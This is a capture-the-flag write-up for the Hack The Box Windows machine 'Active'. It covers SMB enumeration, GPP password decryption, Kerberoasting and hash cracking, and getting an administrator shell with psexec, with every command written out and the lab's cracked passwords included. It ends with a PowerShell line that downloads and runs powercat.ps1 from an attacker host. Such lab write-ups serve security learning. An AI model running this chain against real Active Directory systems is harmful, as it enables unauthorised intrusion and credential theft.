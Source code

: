 ```yaml
---
title: "Active - HTB"
categories: [Easy,Windows]
tags: [Easy,Windows,Kerberoasting,Kerberos,AD,SMB]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Active.png
---
```


# Introdution

This box is a Windows Easy. We’ll start enumerate SMB, where the `Replication` share will find. There’re a file that contains a user and a pass encrypted with GPP. After to decrypt the pass, we will do a **Kerberoasting Attack.** We’ll get the hash Administrator user.

**Have a good time!**

## Diagram

```mermaid
graph TD
  Enumeration --> B(Enum_SMB) --> 
  C[/Replication/] --> |GPP| D[User: SVC_TG] --> 
  Exploration --> |Kerberoasting Attack| E(Administrator)
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled.png){: .shadow}

The `active.htb` domain was found, let’s insert in `/etc/hosts`{: .filepath}

## SMB - TCP 139/445

Lets enumerate the SMB using the `smbclient`*.*

```bash
smbclient -N -L //10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%201.png)

The `Replication` share was found and we can access it.

### Share Replication - SMB

```bash
smbclient -N //10.10.10.100/replication
```

There’re some files interesting.

- ***/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml***

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%202.png)

We have userName and a probable password.

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

> **Senhas GPP**
> 
> Whenever a new Group Policy Preference (GPP) is created, there is an xml file created on the SYSVOL share with this configuration data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before storing it as `cpassword`. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!
> 
> Microsoft released a patch in 2014 that prevented administrators from putting passwords in GPP. But this patch does nothing about any of those breakable passwords that were already there, and as I understand it, pentesters are still regularly encountering them in 2018. For more details, check out this [AD security post](https://adsecurity.org/?p=2288).
> 
{: .prompt-info }

## Decrypting the GPP Password

Since the key is know, I can decrypt the pass. Kali have a tool called `gpp-decrypt` that It’ll this.

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

We found the pass for user **active.htb\SVC_TGS** : **GPPstillStandingStrong2k18**

## Enumerating SMB

With the username and password, let's enumerate the smb with the credential.

```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%203.png)

We gain access to three more shares: `NETLOGON, SYSVOL, Users`

### Shares Users - SMB

```bash
smbclient //10.10.10.100/Users -U "active.htb\\SVC_TGS%GPPstillStandingStrong2k18"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%204.png)

The `Users` share is the directory `C:\Users`{: .filepath}

In `/users/SVC_TGS/Desktop/`{: .filepath}, We found the `user.txt`, which contains a flag. 

# Exploration

## Kerberoasting

We'll use the **active.htb/SVC_TGS**:`GPPstillStandingStrong2k18` credentials to get a list of service usernames that are associated with regular user accounts.

We found a user: Administrator

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%205.png)

It also gives me the ticket, which I can try to brute-force decrypt to get the user's password:

```bash
cat GetUserSPNs.out
```

Cracking the hash:

```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%206.png)

We found the pass to **Administrator**:`Ticketmaster1968`

### Getting the Shell

With the credencials found, We log through **psexec**:

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

We have shell root.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%207.png)

**HABEMUS!!!**

# Post Exploration

## **Spawn Shell**

```powershell
powershell -c iex(new-object system.net.webclient).downloadstring('http://10.10.14.4/powercat.ps1')
```
